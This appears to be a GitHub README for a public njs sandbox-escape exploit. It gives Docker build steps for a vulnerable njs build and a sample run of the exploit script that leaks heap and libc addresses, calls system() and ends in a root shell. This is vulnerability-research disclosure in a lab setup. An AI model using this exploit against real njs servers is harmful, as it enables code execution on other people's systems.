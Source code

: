 # NJS Sandbox Escape Exploit 

This is the full exploit for _Bug #1_ from https://0xbigshaq.github.io/2024/05/24/njs-vr-bugs/

## Usage

Build the container to compile a vulnerable version of _njs_:

```sh
git clone git@github.com:0xbigshaq/njs-vr.git
cd njs-vr/
docker build -t njs-expdev .
```


Start the container & run `./njs/build/njs exp.js`:

```
$ docker run --rm -it njs-expdev
root@2b4030c83a7e:/exp-dev# ./njs/build/njs exp.js
[*] heap leak = 0x55a5c0833f90
[?] heap_ptr_raw_2 = 0x55a5c0842ad0
[?] heap_ptr_raw_3 = 0x55a5c08376f0
[*] long string length: 0xc0838a50
[*] offset: 455968
[?] addrof raw_buf = 0x55a5c08a3910
[*] Scanning the allocator's ptr tree
>starting at 0x55a5c0849970
 -> cur node 0x55a5c0859e00
 -> cur node 0x55a5c08a10e0
 -> cur node 0x55a5c08a9130
 -> cur node 0x55a5c089f470
 -> cur node 0x55a5c08af3d0
 -> cur node 0x55a5c08c0e88
 -> cur node 0x55a5c08c53e0
 -> cur node 0x7f06e4447718
 -> cur node 0x7f06e44dd720
 -> cur node 0x55a5c0833f90
 -> cur node 0x55a5c003ec70
 -> cur node 0x415541c320462c00
[+] njs_mp_rbtree_compare @ 0x55a5c003ec70
[*] njs base @ 0x55a5c0028000
[*] libc open @ 0x7f06e64e9f00
[*] libc base @ 0x7f06e63dc000
[*] njs_console @ 0x55a5c00fd6e0
[*] njs_console->engine @ 0x55a5c0831f00
[*] njs_console->engine->output @ 0x55a5c0831f40
[*] jumping to system(), go go go
# id
uid=0(root) gid=0(root) groups=0(root)
```
